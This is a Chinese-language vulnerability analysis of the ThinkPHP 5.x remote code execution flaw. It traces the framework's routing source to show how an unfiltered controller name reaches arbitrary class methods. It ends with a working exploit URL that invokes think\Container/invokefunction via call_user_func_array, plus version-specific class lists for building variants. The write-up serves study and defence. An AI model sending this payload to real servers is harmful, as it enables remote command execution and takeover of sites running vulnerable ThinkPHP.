

# TP5远程代码执行

Version:5.0.7<=ThinkPHP5<=5.0.22 、5.1.0<=ThinkPHP<=5.1.30

## 任意模块调用

在兼容模式下可以通过在入口文件传递定义的pathinfo变量名参数来请求对应的控制器,模块,方法,默认为s

在入口的app->run()方法中通过$this->routeCheck()->init()来检测路由对后续程序进行调度

```php
            $dispatch = $this->dispatch;

            if (empty($dispatch)) {
                // 路由检测
                $dispatch = $this->routeCheck()->init();
            }
```

而在routeCheck()中返回的$dispatch则是根据$path使用$this->route->check($path,$must)返回了一个对象而,而$path的值则是$this->request->path(),也就是tp的pathinfo解析后的值

```php
        $path = $this->request->path();//pathinfo解析
        // 是否强制路由模式
        $must = !is_null($this->routeMust) ? $this->routeMust : $this->route->config('url_route_must');

        // 路由检测 返回一个Dispatch对象
        $dispatch = $this->route->check($path, $must);

        if (!empty($routeKey)) {
            try {
                if ($option) {
                    $this->cache->connect($option)->tag('route_cache')->set($routeKey, $dispatch);
                } else {
                    $this->cache->tag('route_cache')->set($routeKey, $dispatch);
                }
            } catch (\Exception $e) {
                // 存在闭包的时候缓存无效
            }
        }

        return $dispatch;
```

pathinfo()解析如下,检测是否有兼容模式参数也就是S参数,如果有则$pathinfo直接等于该值返回

```php
    public function pathinfo()
    {
        if (is_null($this->pathinfo)) {
            if (isset($_GET[$this->config['var_pathinfo']])) {
                // 判断URL里面是否有兼容模式参数
                $pathinfo = $_GET[$this->config['var_pathinfo']];
                unset($_GET[$this->config['var_pathinfo']]);
            } elseif ($this->isCli()) {
			...
			...
			...
            // 分析PATHINFO信息
            $this->pathinfo = empty($pathinfo) || '/' == $pathinfo ? '' : ltrim($pathinfo, '/');
        }

        return $this->pathinfo;
    }
```

根据`     $dispatch = $this->route->check($path, $must);`来看route->check()函数,默认情况下没有跨域路由和强制路由的情况下会直接返回一个UrlDispatch对象,也就是$dispatch等于这个UrlDispatch对象,UrlDispatch即think\route\dispatch\Url

```php
    public function check($url, $must = false)
    {
        // 自动检测域名路由
        $domain = $this->checkDomain();
        $url    = str_replace($this->config['pathinfo_depr'], '|', $url);

        $completeMatch = $this->config['route_complete_match'];

        $result = $domain->check($this->request, $url, $completeMatch);
		...
        ...
        ...

        // 默认路由解析
        return new UrlDispatch($this->request, $this->group, $url, [
            'auto_search' => $this->autoSearchController,
        ]);
    }
```

而在开始的APP类中在路由检测时就是调用该类的init()方法,也就是URL类的init(),在该方法中将解析的url存入$result数组中,然后返回一个Moudle对象的init()结果

```php
class Url extends Dispatch
{
    public function init()
    {
        // 解析默认的URL规则
        $result = $this->parseUrl($this->dispatch);

        return (new Module($this->request, $this->rule, $result))->init();
    }

```

在thinkphp\library\think\route\dispatch\Module.php的init()中对控制器等进行了设置,参数来源于传入的$result数组,也就是说控制器和操作的值是从pathinfo中获取并且完全可控无过滤

```php
    public function init()
    {
        parent::init();

        $result = $this->dispatch;

        if (is_string($result)) {
            $result = explode('/', $result);
        }
		...
        ...
        ...
        // 是否自动转换控制器和操作名
        $convert = is_bool($this->convert) ? $this->convert : $this->rule->getConfig('url_convert');
        // 获取控制器名
        $controller       = strip_tags($result[1] ?: $this->rule->getConfig('default_controller'));//从$result[1]中设置控制器名字
        $this->controller = $convert ? strtolower($controller) : $controller;
        // 获取操作名
        $this->actionName = strip_tags($result[2] ?: $this->rule->getConfig('default_action'));//从$result[2]中设置操作名字
        // 设置当前请求的控制器、操作
        $this->request
            ->setController(Loader::parseName($this->controller, 1))
            ->setAction($this->actionName);
        return $this;
    }
```

然后会回到开始的APP类中,最终调用$dispatch->run(),

````php

        $this->middleware->add(function (Request $request, $next) use ($dispatch, $data) {
            return is_null($data) ? $dispatch->run() : $data;
        });

        $response = $this->middleware->dispatch($this->request);
````

也就是Dispatch类的run(),在其中会调用exec(),该方法为抽象方法,也就是由子类定义的方法,这里则是调用的moudle类的exec()

```php
    public function run()
    {
        $option = $this->rule->getOption();

        // 检测路由after行为
        if (!empty($option['after'])) {
            $dispatch = $this->checkAfter($option['after']);

            if ($dispatch instanceof Response) {
                return $dispatch;
            }
        }

        // 数据自动验证
        if (isset($option['validate'])) {
            $this->autoValidate($option['validate']);
        }

        $data = $this->exec();//调用子类的exec()

        return $this->autoResponse($data);
    }
```

而在Moudle类的exec()方法中则使用了app->controller来实例化控制器,使

```php
    public function exec()
    {
        // 监听module_init
        $this->app['hook']->listen('module_init');

        try {
            // 实例化控制器
            $instance = $this->app->controller($this->controller,
                $this->rule->getConfig('url_controller_layer'),
                $this->rule->getConfig('controller_suffix'),
                $this->rule->getConfig('empty_controller'));
				...
                ...
```

在app->controller中使用parseModuleAndClass方法来解析类和模块,然后判断该类是否存在再返回实例

```php
    public function controller($name, $layer = 'controller', $appendSuffix = false, $empty = '')
    {
        list($module, $class) = $this->parseModuleAndClass($name, $layer, $appendSuffix);//解析模块和类

        if (class_exists($class)) {
            return $this->__get($class);
        } elseif ($empty && class_exists($emptyClass = $this->parseClass($module, $layer, $empty, $appendSuffix))) {
            return $this->__get($emptyClass);
        }

        throw new ClassNotFoundException('class not exists:' . $class, $class);
    }
```

而在parseModuleAndClass()中先判断是否存在反斜杠,有则直接返回$name类,而该值则为$result[1]

```php
    protected function parseModuleAndClass($name, $layer, $appendSuffix)
    {
        if (false !== strpos($name, '\\')) {
            $class  = $name;
            $module = $this->request->module();
        } else {
            if (strpos($name, '/')) {
                list($module, $name) = explode('/', $name, 2);
            } else {
                $module = $this->request->module();
            }

            $class = $this->parseClass($module, $layer, $name, $appendSuffix);
        }

        return [$module, $class];
    }
```

而实例化控制器之后则调用了反射机制访问对应的方法,而反射机制访问的类方法必须要带有完整的命名空间,而命名空间是由反斜杠来分割,结合parseModuleAndClass()中含有反斜杠则直接返回的判定方式,则可以传入\命名空间\类/方法&参数1=&参数2=的url来访问任意类的任意方法

````php
           $this->app['hook']->listen('action_begin', $call);

            $data = $this->app->invokeReflectMethod($instance, $reflect, $vars);//反射机制

            return $this->autoResponse($data);
````

从pathinfo中获取相应的控制器名等直到最后的利用反射机制访问对应的方法一直没有过滤和校验机制.

例如访问think命名空间的invokefunction方法,该方法使用了call_user_func_array()函数

```php
    public function invokeFunction($function, $vars = [])
    {
        try {
            $reflect = new ReflectionFunction($function);

            $args = $this->bindParams($reflect, $vars);

            return call_user_func_array($function, $args);
        } catch (ReflectionException $e) {
            throw new Exception('function not exists: ' . $function . '()');
        }
    }
```

`http://localhost/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`



根据版本不同,类和方法都有些许不同

```
ThinkPHP 5.1.x                  ThinkPHP 5.0.x
stdClass                        stdClass 
Exception                       Exception 
ErrorException                  ErrorException 
Closure                         Closure 
Generator                       Generator 
DateTime                        DateTime 
DateTimeImmutable               DateTimeImmutable 
DateTimeZone                    DateTimeZone 
DateInterval                    DateInterval 
DatePeriod                      DatePeriod 
LibXMLError                     LibXMLError 
DOMException                    DOMException 
DOMStringList                   DOMStringList 
DOMNameList                     DOMNameList 
DOMImplementationList           DOMImplementationList 
DOMImplementationSource         DOMImplementationSource 
DOMImplementation               DOMImplementation 
DOMNode                         DOMNode 
DOMNameSpaceNode                DOMNameSpaceNode 
DOMDocumentFragment             DOMDocumentFragment 
DOMDocument                     DOMDocument 
DOMNodeList                     DOMNodeList 
DOMNamedNodeMap                 DOMNamedNodeMap 
DOMCharacterData                DOMCharacterData 
DOMAttr                         DOMAttr 
DOMElement                      DOMElement 
DOMText                         DOMText 
DOMComment                      DOMComment 
DOMTypeinfo                     DOMTypeinfo 
DOMUserDataHandler              DOMUserDataHandler 
DOMDomError                     DOMDomError 
DOMErrorHandler                 DOMErrorHandler 
DOMLocator                      DOMLocator 
DOMConfiguration                DOMConfiguration 
DOMCdataSection                 DOMCdataSection 
DOMDocumentType                 DOMDocumentType 
DOMNotation                     DOMNotation 
DOMEntity                       DOMEntity 
DOMEntityReference              DOMEntityReference 
DOMProcessingInstruction        DOMProcessingInstruction 
DOMStringExtend                 DOMStringExtend 
DOMXPath                        DOMXPath 
finfo                           finfo 
LogicException                  LogicException 
BadFunctionCallException        BadFunctionCallException 
BadMethodCallException          BadMethodCallException 
DomainException                 DomainException 
InvalidArgumentException        InvalidArgumentException 
LengthException                 LengthException 
OutOfRangeException             OutOfRangeException 
RuntimeException                RuntimeException 
OutOfBoundsException            OutOfBoundsException 
OverflowException               OverflowException 
RangeException                  RangeException 
UnderflowException              UnderflowException 
UnexpectedValueException        UnexpectedValueException 
RecursiveIteratorIterator       RecursiveIteratorIterator 
IteratorIterator                IteratorIterator 
FilterIterator                  FilterIterator 
RecursiveFilterIterator         RecursiveFilterIterator 
CallbackFilterIterator          CallbackFilterIterator 
RecursiveCallbackFilterIterator RecursiveCallbackFilterIterator 
ParentIterator                  ParentIterator 
LimitIterator                   LimitIterator 
CachingIterator                 CachingIterator 
RecursiveCachingIterator        RecursiveCachingIterator 
NoRewindIterator                NoRewindIterator 
AppendIterator                  AppendIterator 
InfiniteIterator                InfiniteIterator 
RegexIterator                   RegexIterator 
RecursiveRegexIterator          RecursiveRegexIterator 
EmptyIterator                   EmptyIterator 
RecursiveTreeIterator           RecursiveTreeIterator 
ArrayObject                     ArrayObject 
ArrayIterator                   ArrayIterator 
RecursiveArrayIterator          RecursiveArrayIterator 
SplFileInfo                     SplFileInfo 
DirectoryIterator               DirectoryIterator 
FilesystemIterator              FilesystemIterator 
RecursiveDirectoryIterator      RecursiveDirectoryIterator 
GlobIterator                    GlobIterator 
SplFileObject                   SplFileObject 
SplTempFileObject               SplTempFileObject 
SplDoublyLinkedList             SplDoublyLinkedList 
SplQueue                        SplQueue 
SplStack                        SplStack 
SplHeap                         SplHeap 
SplMinHeap                      SplMinHeap 
SplMaxHeap                      SplMaxHeap 
SplPriorityQueue                SplPriorityQueue 
SplFixedArray                   SplFixedArray 
SplObjectStorage                SplObjectStorage 
MultipleIterator                MultipleIterator 
SessionHandler                  SessionHandler 
ReflectionException             ReflectionException 
Reflection                      Reflection 
ReflectionFunctionAbstract      ReflectionFunctionAbstract 
ReflectionFunction              ReflectionFunction 
ReflectionParameter             ReflectionParameter 
ReflectionMethod                ReflectionMethod 
ReflectionClass                 ReflectionClass 
ReflectionObject                ReflectionObject 
ReflectionProperty              ReflectionProperty 
ReflectionExtension             ReflectionExtension 
ReflectionZendExtension         ReflectionZendExtension 
__PHP_Incomplete_Class          __PHP_Incomplete_Class 
php_user_filter                 php_user_filter 
Directory                       Directory 
SimpleXMLElement                SimpleXMLElement 
SimpleXMLIterator               SimpleXMLIterator 
SoapClient                      SoapClient 
SoapVar                         SoapVar 
SoapServer                      SoapServer 
SoapFault                       SoapFault 
SoapParam                       SoapParam 
SoapHeader                      SoapHeader 
PharException                   PharException 
Phar                            Phar 
PharData                        PharData 
PharFileInfo                    PharFileInfo 
XMLReader                       XMLReader 
XMLWriter                       XMLWriter 
ZipArchive                      ZipArchive 
PDOException                    PDOException 
PDO                             PDO 
PDOStatement                    PDOStatement 
PDORow                          PDORow 
CURLFile                        CURLFile 
Collator                        Collator 
NumberFormatter                 NumberFormatter 
Normalizer                      Normalizer 
Locale                          Locale 
MessageFormatter                MessageFormatter 
IntlDateFormatter               IntlDateFormatter 
ResourceBundle                  ResourceBundle 
Transliterator                  Transliterator 
IntlTimeZone                    IntlTimeZone 
IntlCalendar                    IntlCalendar 
IntlGregorianCalendar           IntlGregorianCalendar 
Spoofchecker                    Spoofchecker 
IntlException                   IntlException 
IntlIterator                    IntlIterator 
IntlBreakIterator               IntlBreakIterator 
IntlRuleBasedBreakIterator      IntlRuleBasedBreakIterator 
IntlCodePointBreakIterator      IntlCodePointBreakIterator 
IntlPartsIterator               IntlPartsIterator 
UConverter                      UConverter 
JsonIncrementalParser           JsonIncrementalParser 
mysqli_sql_exception            mysqli_sql_exception 
mysqli_driver                   mysqli_driver 
mysqli                          mysqli 
mysqli_warning                  mysqli_warning 
mysqli_result                   mysqli_result 
mysqli_stmt                     mysqli_stmt 
Composer\Autoload\ComposerStaticInit81a0c33d33d83a86fdd976e2aff753d9            Composer\Autoload\ComposerStaticInit8a67cf04fc9c0db5b85a9d897c12a44c 
think\Loader                    think\Loader
think\Error                     think\Error 
think\Container                 think\Config 
think\App                       think\App 
think\Env                       think\Request 
think\Config                    think\Hook 
think\Hook                      think\Env 
think\Facade                    think\Lang 
think\facade\Env                think\Log 
env                             think\Route
think\Db 
think\Lang 
think\Request 
think\facade\Route 
route 
think\Route 
think\route\Rule 
think\route\RuleGroup 
think\route\Domain 
think\route\RuleItem 
think\route\RuleName 
think\route\Dispatch 
think\route\dispatch\Url 
think\route\dispatch\Module 
think\Middleware 
think\Cookie 
think\View 
think\view\driver\Think 
think\Template 
think\template\driver\File 
think\Log 
think\log\driver\File 
think\Session 
think\Debug 
think\Cache 
think\cache\Driver 
think\cache\driver\File 
```

